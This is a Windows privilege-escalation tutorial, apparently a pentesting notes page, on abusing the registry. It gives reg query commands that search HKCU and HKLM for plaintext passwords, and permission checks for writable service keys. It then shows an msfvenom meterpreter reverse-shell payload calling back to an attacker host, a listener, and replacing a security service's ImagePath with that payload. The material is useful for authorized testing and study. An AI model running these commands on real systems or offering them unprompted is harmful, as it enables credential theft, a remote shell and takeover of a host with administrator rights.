 ### What is the Windows Registry?
The Windows registry is a ***database*** where applications and system components store and retrieve configuration information. The database is ***hierarchical***, and the stored information is critical to the Windows operation, applications, and services running on the system.

### Privilege Escalation in the Registry
#### Plain-Text Passwords
***HKCU*** hive stores data associated with the current user account.
```
# Searching Password
reg query HKCU /f password /t REG_SZ /s

# Searching Username
reg query HKCU /f username /t REG_SZ /s
```
- `/f:` specify the keyword searched
- `/t:` type of registry key data to search
- `/s:` search should be performed recursively, including all subkeys and values

***HKLM*** hive  stores ***system-wide information***.
```
reg query HKLM /f password /t REG_SZ /s
```

You can even start from specific keys inside each hive by giving the full path:
```
reg query HKEY_CURRENT_USER\System\CurrentControlSet /f password /t REG_SZ /s
```

#### Weak Registry Key Permissions
Windows configuration details are also defined in the registry, so if a low-privileged user has permission to modify important configuration keys, it can be a vector for privilege escalation.

**Check Service Registry Key Permissions - AccessChk**
```
accesschk.exe /accepteula "USERNAME" -kvuqsw HKLM\System\CurrentControlSet\Services
```
- `KEY_ALL_ACCESS:` means you have ***full access*** to this service's registry key, including creating subkeys, removing the key, and modifying it.


**Check Service Registry Key Permissions - PowerShell**
```
Get-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\*" | Format-List * | Out-String | Set-Content -Path $HOME\Desktop\output.txt
```
- Look for permissions such as `FullControl`, `Modify`, or `Write` in the `AccessToString` field. With these permissions, you can either add new values to the registry key or modify existing ones in the key.

#### Confirming the Vulnerability
You need to confirm some other important details before attempting privilege escalation.
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\$serviceName
```
- `ImagePath:` is the executable binary that the service calls to run.
- `ObjectName:` is the ***user account*** that the service is launched as, so ensure an ***administrator-level account is launching the service***.
- `Start:` tells you how the service started. If set to `AutoStart` - represented by `0x2` and your user account doesn't have permission to restart the service, you can restart the host.

### Exploitation
**Generate Payload**
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$kaliIPAddress LPORT=4444 -f exe -o reverse.exe
```

`Transfer the payload to the Windows Target.`

**Launch a Listener**
```
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost $kaliIPAddress; set lport 4444; exploit"
```

**Exploit**
Open `regedit`

Open following key
```
Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services
```

Look for the `registry key` for ***VirusScan***.
Click the `ImagePath` and update it with your executable.
Click OK.
Restart the host.
